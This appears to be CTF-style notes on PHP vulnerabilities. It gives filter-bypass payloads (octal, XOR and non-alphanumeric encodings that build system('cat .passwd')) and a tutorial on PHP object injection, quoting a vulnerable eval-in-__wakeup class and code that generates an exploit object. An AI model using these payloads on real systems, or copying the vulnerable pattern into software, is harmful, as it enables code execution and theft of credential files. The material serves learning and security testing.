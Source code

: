 ### PHP  vuln

## PHP regex bypass

- With octal encoder https://cryptii.com/pipes/text-octal

		file_get_contents(".passwd") -> "\146\151\154\145\137\147\145\164\137\143\157\156\164\145\156\164\163"("\056\160\141\163\163\167\144")

- xor operation

		import string
 
		if __name__ == "__main__":
    		s = string.printable[62:62+32] ##    !"#$%&'()*+,-./:;<=>?@[\]^_\`{|}~
    		s1 = string.printable[:62]     ##    0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ
    		for i in s:
        		for j in s:
            		x = chr(ord(i)^ord(j))
            		if x in s1+'_':
                		print '{0}\t{1}\t{2}'.format(i,j,x)

	$_ = "@" ^ "!" //a
                            	
- Convert to phpnonalpha

	Open https://hackvertor.co.uk/public# and use phpnonalpha encoder

- Unicode encoder

		$_=("#"^"@").('('^'@').('2'^'@');  // 'c' + 'h' + 'r'
 		$__=$_(115).$_(121).$_(115).$_(116).$_(101).$_(109); // here system
		$___=$_(99).$_(97).$_(116)." .".$_(112).$_(97).$_(115).$_(115).$_(119).$_(100); //here cat .passwd
 		$__($___);

- PHP object

Serialization in PHP
To understand PHP object injections, you have to first understand how PHP serialize and deserialize objects.
Serializing
When you need to store a PHP object or transfer it over the network, you use serialize() to pack it up.
serialize(): PHP object -> plain old string that represents the obj
When you need to use that data, use unserialize() to unpack and get the underlying object.
unserialize(): string containing object data -> original object
For example, this code snippet will serialize the object “user”.
	<?php
	class User{
	public $username;
	public $status;
	}
	$user = new User;
	$user->username = 'vickie';
	$user->status = 'not admin';
	echo serialize($user);
	?>
Run the code snippet, and you will get the serialized string that represents the “user” object.
	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:9:"not admin";}
Serialized string structure
Let’s break this serialized string down! The basic structure of a PHP serialized string is “data type: data”. For example, “b” represents a boolean.
	b:THE_BOOLEAN;
“i” represents an integer.
	i:THE_INTEGER;
“d” represents a float.
	d:THE_FLOAT;
“s” represents a string.
	s:LENTH_OF_STRING:"ACTUAL_STRING";
“a” represents an array.
	a:NUMBER_OF_ELEMENTS:{ELEMENTS}
And finally, “O” represents an object.
	O:LENTH_OF_NAME:"CLASS_NAME":NUMBER_OF_PROPERTIES:{PROPERTIES}
So we can see our serialized string here represents an object of the class “User”. It has two properties. The first property has the name “username” and the value “vickie”. The second property has the name “status” and the value “not admin”.
	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:9:"not admin";}
Deserializing
When you are ready to operate on the object again, you can deserialize the string with unserialize().
	<?php
	class User{
	public $username;
	public $status;
	}
	$user = new User;
	$user->username = 'vickie';
	$user->status = 'not admin';
	$serialized_string = serialize($user);
	$unserialized_data = unserialize($serialized_string);
	var_dump($unserialized_data);
	var_dump($unserialized_data["status"]);
	?>
Unserialize() under the hood
So how does unserialize() work under the hood? And why does it lead to vulnerabilities?
What are PHP magic methods?
PHP magic methods are function names in PHP that have “magical” properties. Learn more about them here.
The magic methods that are relevant for us now are __wakeup() and __destruct(). If the class of the serialized object implements any method named __wakeup() and __destruct(), these methods will be executed automatically when unserialize() is called on an object.
Step 1: Object instantiation
Instantiation is when the program creates an instance of a class in memory. That is what unserialize() does. It takes the serialized string, which specifies the class and the properties of that object. With that data, unserialize() creates a copy of the originally serialized object.
It will then search for a function named __wakeup(), and execute code in that function. __wakeup() reconstructs any resources that the object may have. It is used to reestablish any database connections that have been lost during serialization and perform other reinitialization tasks.
Step 2: Program uses the object
The program operates on the object and uses it to perform other actions.
Step 3: Object destruction
Finally, when no reference to the deserialized object instance exists, __destruct() is called to clean up the object.
Exploiting PHP deserialization
When you control a serialized object that is passed into unserialize(), you control the properties of the created object. You might also be able to hijack the flow of the application by controlling the values passed into automatically executed methods like __wakeup() or __destruct().
This is called a PHP object injection. PHP object injection can lead to variable manipulation, code execution, SQL injection, path traversal, or DoS.
Controlling variable values
One possible way of exploiting a PHP object injection vulnerability is variable manipulation. For example, you can mess with the values encoded in the serialized string.
	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:9:"not admin";}
In this serialize string, you can try to change the value of “status” to “admin”, and see if the application grants you admin privileges.
	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:5:"admin";}
Getting to RCE
It’s even possible to achieve RCE using PHP object injection! For example, consider this vulnerable code snippet: (taken from https://www.owasp.org/index.php/PHP_Object_Injection)
	class Example2
	{
	  private $hook;   
	  function __construct(){
	      // some PHP code...
	  }   
	  function __wakeup(){
	      if (isset($this->hook)) eval($this->hook);
	  }
	}
// some PHP code...
	$user_data = unserialize($_COOKIE['data']);
// some PHP code...
You can achieve RCE using this deserialization flaw because a user-provided object is passed into unserialize. And the class Example2 has a magic function that runs eval() on user-provided input.
To exploit this RCE, you simply have to set your data cookie to a serialized Example2 object with the hook property set to whatever PHP code you want. You can generate the serialized object using the following code snippet:
	class Example2
	{
	   private $hook = "phpinfo();";
	}
print urlencode(serialize(new Example2));
// We need to use URL encoding since we are injecting the object via a URL.

